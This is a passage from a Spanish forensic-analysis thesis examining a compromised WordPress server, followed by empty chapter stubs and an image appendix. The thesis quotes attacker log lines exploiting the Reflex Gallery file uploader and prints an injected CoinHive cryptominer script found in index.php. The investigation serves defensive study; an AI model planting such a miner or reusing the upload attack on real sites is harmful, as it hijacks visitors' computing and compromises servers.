#### [4.2. Imagen 002.](#82004002002-caso-autopsy-generado-correctamente)

Procedemos a hacer una visualización general. En el TFM, la autoridad, nos da fé de que esta es la imagen extraída del servidor y en la sección anterior hemos corroborado el hash del archivo. Se puede dar fé de que ambos datos provienen del mismo servidor. Por otro lado se ha comprobado los datos de la extracción de la RAM asi como de la extracción del HDD que el archivo `/home/jrodg85/volcado-datos/home/ubuntu/.bash_history`, son exactamente el mismo. Se adjunta imagen donde se puede comprobar al acción.

#### [4.2. Imagen 003.](#82004002003-comprobación-bash-history)

A continuación, procederemos a extraer los archivos en adelante en `C:\TFM-estudio\` y, mediante WSL, procederemos a hacer las acciones necesarias para su análisis.

[Volver al Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)

[Volver al Índice General.](#índice-general)

---

                    

## 4.3. Usuarios del sistema.

A continuación vamos a proceder a investigar los usuarios que hay en el cloud server, para ello vamos a proceder a investigar el cd el archivo `/etc/passwd`,en el comprobaremos los usuarios del sistema.

#### [4.3. Imagen 001.](#82004003001-usuarios-del-sistema)

Analizando los usuarios del sistema, el único usuario que realmente es el ya encontrado en la ram es el usuario Ubuntu.
~~~
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
~~~

[Volver al Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)

[Volver al Índice General.](#índice-general)

---

                             

## 4.4. Análisis de evidencias del disco duro.

**AUTH LOG**

No contentos con este análisis puesto que no sacamos nada nuevo, vamos a observar en los registros del sistema que autenticaciones han ocurrido en el cloud server, para ello procederemos a extraer `/var/log/auth.log`, con ello veremos un registro completo de las acciones llevadas a cabo dentro del cloud server. Procedemos con WSL a realizar un primer análisis haciendo un `grep "user" auth.log`, el cual nos da muchísima información. Se adjunta pantallazo del mismo.

#### [4.4. Imagen 001.](#82004003002-análisis-auth-log-1)

Al ver tal cantidad ingente de información procedemos a ver un patron de usuarios inválidos en auth.log. Por lo que buscamos los invalid user con el comando `grep "Invalid user" auth.log`

#### [4.4. Referencia 020.](#85020-informe-invalid-user)

Se puede considerar que desde el 31 de diciembre hasta el 03 de enero se ha realizado intentos masivos de acceso con usuario no inválidos. Parece que ha tenido que hacerse con un ataque de intento de acceso a través de un diccionario de usuario posiblemente predefinidos en el sistema.

Relativo a la información obtenida y los datos que podemos sacar de ellos. Cabe destacar que este archivo de registro es de autenticaciones fallidas, cabe destacar también que este cloud server tiene una ip dedicada, y en los fueros es conocido la gran cantidad de bots de otros países que tratan de manera continua acceder a este tipo de servidores. De hecho compañeros míos, durante su etapa la universidad, no es de extrañar que se hayan avisado desde los SOC de que han tenido que cortar la conexión a internet por intentos de acceso desde direcciones IP registradas en Shanghai.

**APACHE ACCESS LOG**

Ya que tenemos detectado del análisis de la memoria RAM que el error viene del servicio de apache2, vamos a proceder a buscar en sus logs. Personalmente creo que es considerable estar enfocados en ese sentido.

Por tanto, para buscar los accesos a apache, debemos ir a `/var/log/apache2/access.log` y ver las acciones realizadas sobre el servidor.

#### [4.4. Imagen 002.](#82004003003-análisis-apache-access-log-1)

Cabe destacar de este archivo las siguientes lineas:

~~~
18.195.165.56 - - [03/Jan/2019:07:07:28 +0000] "GET /wp-content/plugins/reflex-gallery/readme.txt HTTP/1.1" 200 8887 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
18.195.165.56 - - [03/Jan/2019:07:07:43 +0000] "POST /wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2019&Month=01 HTTP/1.1" 200 209 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
~~~

hace un get a un readme.txt puede una accion de amenaza puesto que se puede obtener información expuesta involuntariamente en dicho archivo, no será la primera vez que se ve en un comentario de una web una contraseña o similar. En el caso que nos ocupa se ha observado que, no hay información sensible al respecto, quizás, lo haya realizado esta accion para comprobar alguna vulnerabilidad.

Por otr lado, posteriormente que inyecte un archivo .php dentro de un sistema de carga de imágenes, pues puede ser una vulnerabilidad, ya que se puede estar inyectando código malicioso dentro del sistema. Procedo a la extracción del archivo y análisis con VirusTotal. El resultado muestra que no tiene virus. Aun así se hace un resumen del código en busca de posibles vulnerabilidades llegando a las siguientes conclusiones.

1. Control de Extensiones de Archivos:
    - Aunque hay una comprobación de las extensiones de archivo permitidas, esta lista está vacía por defecto (`$allowedExtensions = array();`). Esto podría permitir la carga de tipos de archivos potencialmente peligrosos si no se configura adecuadamente.
2. Manejo de Directorios:
    - El script parece crear y escribir en directorios basados en entradas de usuario `(../../../../../uploads/'.$_GET['Year'].'/'.$_GET['Month'].'/')`. Esto podría llevar a vulnerabilidades de recorrido de directorio si no se valida y restringe adecuadamente.
3. Falta de Autenticación y Autorización:
    - No hay evidencia de controles de autenticación o autorización para limitar quién puede cargar archivos. Esto puede exponer el sistema a cargas no autorizadas.

**APACHE ERROR LOG**

Procedemos a abrir el archivo `/var/log/apache2/error.log`.

#### [4.4. Imagen 003.](#82004003004-análisis-apache-error-log-1)

Destacamos las lineas:
~~~
[Thu Jan 03 07:07:43.230918 2019] [php7:notice] [pid 19951] [client 18.195.165.56:44145] PHP Notice:  A non well formed numeric value encountered in /var/www/html/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php on line 169
[Thu Jan 03 07:07:43.230979 2019] [php7:notice] [pid 19951] [client 18.195.165.56:44145] PHP Notice:  A non well formed numeric value encountered in /var/www/html/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php on line 99
[Thu Jan 03 07:07:43.230987 2019] [php7:notice] [pid 19951] [client 18.195.165.56:44145] PHP Notice:  A non well formed numeric value encountered in /var/www/html/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php on line 99
~~~

Ya que la carga del archivo viene a tener errores en el código en las lineas 99 y 169. Personalmente, las lineas 99 (`case 'm': $val *= 1024;`) y 169 (`$sizeLimit = ini_get('upload_max_filesize') * 1024 * 1024;`) no están provocando error alguno.

**ARCHIVOS DE LOG DE MYSQL**

Otro de los servicios, pero de los que no tenemos un acceso confirmado, distinto de apache que si que estaba confirmado, es el servicio de MySQL. para ello procederemos a analizar la carpeta `/var/log/mysql/`. En ella solo encontramos el archivo `error.log`, el cual, está vacío.

#### [4.4. Imagen 004.](#82004004004-análisis-mysql-log-1)

Procedemos a buscar a ver si en la RAM podemos encontrar el mismo error, el cual es asi, el archivo error de my sql, también aparece vacío.

#### [4.4. Imagen 005.](#82004004005-análisis-mysql-log-2)

**PAGINA WEB**

Voy a proceder a buscar en la pagina web cualquier anomalía que pueda tener. Cual es mi sorpresa que nada mas ser descargada, Windows me da un aviso de una vulnerabilidad grave. detectando un troyano del tipo `Trojan:JS/CoinHive.B`. Este tipo de virus es un código en JavaScript que lo que hace es proceder a minar con la CPU bitcoins. Pudiendo realizar la ruptura del equipo. En este caso en los servidores de amazon, provocarían un exceso de ejecución de tareas provocando ademas posible incumplimiento de uso de las infancias EC2.

#### [4.4. Imagen 007.](#82004004007-análisis-index)

De hecho el código del index.php tiene el siguiente script dentro del código

~~~
var miner = new CoinHive.Anonymous('pvvxSQ6RzN3K5IY9F5fFHvahAFNreg3u', {throttle: 0.2});
miner.start();
~~~

**CORREOS ELECTRÓNICOS**

Los correos electrónicos son evidencias en las que se comparten acciones relativas entre dos sujetos, es decir, comunicaciones. Puede resultar vital para entender todos los hechos ocurridos dentro del sistema.

Para realizar un análisis de los correos electrónicos ubicados en el sistema, Autopsy lo hace de manera muy simple. Al ser unos mensajes preformateados, el mismo los encuentra en el apartado `Data Artifacts > E-mail Messages > Default ([Default]) > Default`. En nuestro caso, encuentra 22 elementos. Los cuales, los vamos a organizar de manera cronológica y procederemos, a "pico y pala" a indagar en ellos.

#### [4.4. Imagen 008.](#82004004008-análisis-mails)

Buscando dentro de los correos encontramos el siguiente indicio.

#### [4.4. Imagen 009.](#82004004009-análisis-mails-2)

Este correo, viene a notificar el registro del usuario `anatoly5676` con correo `anatoly5676@grr.la`.

Si accedemos a grr.la, nos redirecciona a [https://www.guerrillamail.com/](https://www.guerrillamail.com/). Un servidor de emails temporales.

#### [4.4. Imagen 010.](#82004004010-análisis-mails-3)

Un minuto después del registro de `anatoly5676`, el servidor manda un correo indicando que se ha cambiado la contraseña de ese usuario.

#### [4.4. Imagen 011.](#82004004011-análisis-mails-4)

Instantes mas tarde, `anatoly5676` remite un correo indicando que apruebe un comentario.

#### [4.4. Imagen 012.](#82004004012-análisis-mails-5)

Se puede ver que el comentario es un comentario `null`, sin contenido, por lo que algo extraño está sucediendo.

Por otro lado, se observa que la ip por la que accede anatoly ahora es desde la 193.238.152.59, esta IP pertenece a Ucrania tal y como se puede ver en la siguiente imagen

#### [4.4. Imagen 013.](#82004004013-análisis-mails-6)

Posteriormente, `anatoly5676` desde la misma dirección IP de Ucrania, procede a remitirle un enlace **HTTP**, para que acceda a esa dirección IP. Casualmente es la dirección IP hallada anteriormente (18.195.165.56), al ser una comunicación entre maquinas con protocolo http, esta comunicación no va securizada, por lo que puede estar siendo intervenida por un tercero.

#### [4.4. Imagen 014.](#82004004014-análisis-mails-7)

Podemos observar que esa dirección ip corresponde a una dirección IP de AWS y, ademas, se localiza en Alemania.

#### [4.4. Imagen 015.](#82004004015-análisis-mails-8)

EL 30 de Diciembre de 2018 a las 11:46:38 UTC, se recibe otro correo dentro del buzón de admin@ganga.site donde se puede observar un Hello World y debajo un script que ataca a un archivo llamado `stat.js` accesible a traves de http en la dirección IP `18.195.165.56`.

#### [4.4. Imagen 016.](#82004004016-análisis-mails-9)

**BASES DE DATOS**

Aunque ya ha quedado un todo un poco más fluido y entendido de lo que ha ocurrido, lo cual se expondrá en las conclusiones, se procede a realizar un pequeño análisis de la base de datos. en la index.db encontramos las siguiente sentencias:
- `Permit user logins after boot, prohibit user logins at shutdown`.
- `Ukrainian character set encoded in octal, decimal, and hexadecimalmcookie`.
- `The Swiss Army Knife of Embedded Linuxrsh-`
- `Initialize a terminal or query terminfo databasenologin`.

**CONCLUSIONES**

- Hemos hemos hallado la manera en el que se ha infectado el cloud server. Esta conexión a `18.195.165.56`, posiblemente tenga un js. el cual remite toda la información que se inserta en la web, por tanto, posiblemente, `anatoly5676` ha estado entrando por donde ha querido dentro del servidor.
- La alteración de la Base de datos, después de la infección (31 de diciembre a las 06:25:02 UTC) con las sentencias encontradas, muestra una desecurización de la base de datos.

[Volver al Índice del capítulo 4. Análisis del disco duro.](#índice-del-capítulo-4-análisis-del-disco-duro)

[Volver al Índice General.](#índice-general)

---

                                  

# 5. Resumen ejecutivo.

## Índice del capítulo 5. Resumen ejecutivo.

[Volver al Índice General.](#índice-general)

---

                                      

## 5.0. Introducción al capítulo 5. Resumen ejecutivo.

[Volver al Índice del capítulo 5. Resumen ejecutivo.](#índice-del-capítulo-5-resumen-ejecutivo)

[Volver al Índice General.](#índice-general)

---

                                        

## 5.1. Resumen ejecutivo.

[Volver al Índice del capítulo 5. Resumen ejecutivo.](#índice-del-capítulo-5-resumen-ejecutivo)

[Volver al Índice General.](#índice-general)

---

                                       

# 6. Informe pericial.

## Índice del capítulo 6. Informe pericial.

[Volver al Índice General.](#índice-general)

---

                                       

## 6.0. Introducción al capítulo 6. Informe pericial.

[Volver al Índice del capítulo 6. Informe pericial.](#índice-del-capítulo-6-informe-pericial)

[Volver al Índice General.](#índice-general)

---

                                        

## 6.1. Informe pericial.

[Volver al Índice del capítulo 6. Informe pericial.](#índice-del-capítulo-6-informe-pericial)

[Volver al Índice General.](#índice-general)

---

                                       

# 7. Conclusiones.

## Índice del capítulo 7. Conclusiones.

[Volver al Índice General.](#índice-general)

---

                                       

## 7.0. Introducción al capítulo 7. Conclusiones.

[Volver al Índice del capítulo 7. Conclusiones.](#índice-del-capítulo-7-conclusiones)

[Volver al Índice General.](#índice-general)

---

                                        

## 7.1. Conclusiones.

[Volver al Índice del capítulo 7. Conclusiones.](#índice-del-capítulo-7-conclusiones)

[Volver al Índice General.](#índice-general)

---

                                        

# 8. Anexos.

## Índice del capítulo 8. Anexos.

[Volver al Índice General.](#índice-general)

---

                                       

## 8.0. Introducción al capítulo 8. Anexos.

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

                                        

## 8.1. Glosario de términos y abreviaturas.

---

#### 8.1.001.000.001. CISO.

1. La persona responsable de velar por la ciberseguridad de una empresa, es el acrónimo de (Chief Information Security Officer). También podemos conocerlo como director de seguridad de la información. Esta persona es la que se encarga de proteger la información ante posibles ciberataques y fugas de datos. De esta manera, garantiza la seguridad dentro de las posibilidades tanto humanas, técnicas como económicas que tenga cada empresa.

[Volver al texto del término en la Sección 1.0.](#10-glosario-001-ciso)

---

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

                             

## 8.2. Imágenes.

---

#### 8.2.001.003.005.001. Diagrama de metodología del análisis forense.

[Volver al texto de la imagen en la Sección 1.3.5.](#135-imagen-001)

---

                    

#### 8.2.001.003.005.002. Fases 1 2 y 3 de la metodología del análisis forense.

[Volver al texto de la imagen en la Sección 1.3.5.](#135-imagen-002-135-imagen-003-135-imagen-004)

---

       

#### 8.2.001.003.005.003. Fases 4 5 y 6 de la metodología del análisis forense.

[Volver al texto de la imagen en la Sección 1.3.5.](#135-imagen-002-135-imagen-003-135-imagen-004)

---

  

#### 8.2.001.003.005.004. Fase 7 de la metodología del análisis forense.

[Volver al texto de la imagen en la Sección 1.3.5.](#135-imagen-002-135-imagen-003-135-imagen-004)

---

#### 8.2.001.003.005.005. Orden de volatilidad análisis forense.

[Volver al texto de la imagen en la Sección 1.3.5.](#135-imagen-005)

---

   

#### 8.2.001.006.001. Diagrama de Gantt reto/PEC 1.

[Volver al texto de la imagen en la Sección 1.6.](#16-imagen-001)

---

#### 8.2.001.006.002. Diagrama de Gantt reto/PEC 2.

[Volver al texto de la imagen en la Sección 1.6.](#16-imagen-001)

---

 

#### 8.2.001.006.003. Diagrama de Gantt reto/PEC 3.

[Volver al texto de la imagen en la Sección 1.6.](#16-imagen-003)

---

#### 8.2.001.006.004. Diagrama de Gantt reto/PEC 4.

[Volver al texto de la imagen en la Sección 1.6.](#16-imagen-004)

---

      

#### 8.2.003.001.001. Imagen Hash archivos.

[Volver al texto de la imagen en la Sección 3.1.](#31-imagen-001)

---

#### 8.2.003.001.002. Imagen Hash PowerShell.

[Volver al texto de la imagen en la Sección 3.1.](#31-imagen-002)

---

       

#### 8.2.003.002.001. Imagen de imageinfo.

[Volver al texto de la imagen en la Sección 3.2.](#32-imagen-001)

---

#### 8.2.003.002.002. Imagen de búsqueda de string linux version.

[Volver al texto de la imagen en la Sección 3.2.](#32-imagen-002)

---

                         

#### 8.2.003.003.001.001. Características VM perfil Volatility.

[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-001)

---

            

#### 8.2.003.003.001.002. Características VM kernel.

[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-002)

---

#### 8.2.003.003.001.003. Búsqueda Kernel 4.15.0-1021-aws.



[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-003)

---

#### 8.2.003.003.001.004. Instalación Kernel 4.15.0-1021-aws.



[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-004)

---

       

#### 8.2.003.003.001.005. Probando de nuevo hostnamectl.

[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-005)

---

#### 8.2.003.003.001.006. Reiniciando server.



[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-006)

---

       

#### 8.2.003.003.001.007. Comprobando kernel.

[Volver al texto de la imagen en la Sección 3.3.1.](#331-imagen-007)

---

#### 8.2.003.003.002.001. Instalación de dwarfdump.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-001)

---

           

#### 8.2.003.003.002.002. Volatility instalado.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-002)

---

#### 8.2.003.003.002.003. ls /home/jrodg85/volatility/tools/linux.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-003-332-imagen-004)

---

         

#### 8.2.003.003.002.004. make /home/jrodg85/volatility/tools/linux.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-003-332-imagen-004)

---

#### 8.2.003.003.002.005. Comandos comprobación kernel.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-005)

---

         

#### 8.2.003.003.002.006. Perfil creado.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-006-332-imagen-007)

---

#### 8.2.003.003.002.007. ls a la carpeta del perfil.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-006-332-imagen-007)

---

#### 8.2.003.003.002.008. Perfil copiado a usb.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-008)

---

               

#### 8.2.003.003.002.009. Perfil copiado entorno volatility.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-009)

---

#### 8.2.003.003.002.010. Perfil creado en entorno volatility.

[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-010)

---

#### 8.2.003.003.002.011. Prueba funcionamiento perfil.



[Volver al texto de la imagen en la Sección 3.3.2.](#332-imagen-011)

---

#### 8.2.003.004.001.001. Linux cpuinfo.



[Volver al texto de la imagen en la Sección 3.4.1.](#341-imagen-001)

---

#### 8.2.003.004.002.001. linux banner.

[Volver al texto de la imagen en la Sección 3.4.2.](#342-imagen-001)

---

       

#### 8.2.003.004.003.001. linux mount.

[Volver al texto de la imagen en la Sección 3.4.3.](#343-imagen-001)

---

#### 8.2.003.004.004.001. linux memmap.

[Volver al texto de la imagen en la Sección 3.4.4.](#344-imagen-001)

---

  

#### 8.2.003.004.005.001. linux iomem.



[Volver al texto de la imagen en la Sección 3.4.5.](#345-imagen-001)

---

                   

#### 8.2.003.004.006.001. linux dmesg.

[Volver al texto de la imagen en la Sección 3.4.5.](#346-imagen-001)

---

#### 8.2.003.005.002.001. sudo nano etc passwd.



[Volver al texto de la imagen en la Sección 3.5.2.](#352-imagen-001)

---

#### 8.2.003.005.003.001. Volcado de datos.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-001)

---

#### 8.2.003.005.003.002. cantidad de archivos recuperados.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-002)

---

             

#### 8.2.003.005.003.003. passwd de volcado.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-003-353-imagen-004)

---

#### 8.2.003.005.003.004. Comprimiendo datos.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-003-353-imagen-004)

---

  

#### 8.2.003.005.003.005. hash archivo zip.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-005)

---

#### 8.2.003.005.003.006. Pantallazo Virustotal 1.



[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-006)

---

                  

#### 8.2.003.005.003.007. Pantallazo Virustotal 2.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-007)

---

                     

#### 8.2.003.005.003.008. Pantallazo Virustotal 3.



[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-008)

---

                   

#### 8.2.003.005.003.009. Pantallazo Virustotal 4.



[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-009)

---

                     

#### 8.2.003.005.003.010. Pantallazo Virustotal 5.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-010)

---

                   

#### 8.2.003.005.003.011. Pantallazo Virustotal 6.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-011)

---

                     

#### 8.2.003.005.003.012. Pantallazo Virustotal 7.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-012)

---

#### 8.2.003.005.003.013. Archivo htaccess.

[Volver al texto de la imagen en la Sección 3.5.3.](#353-imagen-013)

---

       

#### 8.2.003.006.001.001. linux arp.

[Volver al texto de la imagen en la Sección 3.6.1.](#361-imagen-001)

---

#### 8.2.003.006.002.001. linux ifconfig.



[Volver al texto de la imagen en la Sección 3.6.2.](#362-imagen-001)

---

               

#### 8.2.004.001.001. Imagen Hash archivos.

[Volver al texto de la imagen en la Sección 4.1.](#41-imagen-001)

---

#### 8.2.004.001.002. Imagen Hash PowerShell.

[Volver al texto de la imagen en la Sección 4.1.](#41-imagen-002)

---

       

#### 8.2.004.002.001. Nuevo caso Autopsy.

[Volver al texto de la imagen en la Sección 4.2.](#42-imagen-001)

---

#### 8.2.004.002.002. Caso Autopsy generado correctamente.



[Volver al texto de la imagen en la Sección 4.2.](#42-imagen-002)

---

         

#### 8.2.004.002.003. Comprobación bash history.



[Volver al texto de la imagen en la Sección 4.2.](#42-imagen-003)

---

                

#### 8.2.004.003.001. Usuarios del sistema.

[Volver al texto de la imagen en la Sección 4.3.](#43-imagen-001)

---

#### 8.2.004.004.001. Análisis auth log 1.



[Volver al texto de la imagen en la Sección 4.4.](#44-imagen-001)

---

#### 8.2.004.004.002. Análisis apache access log 1.

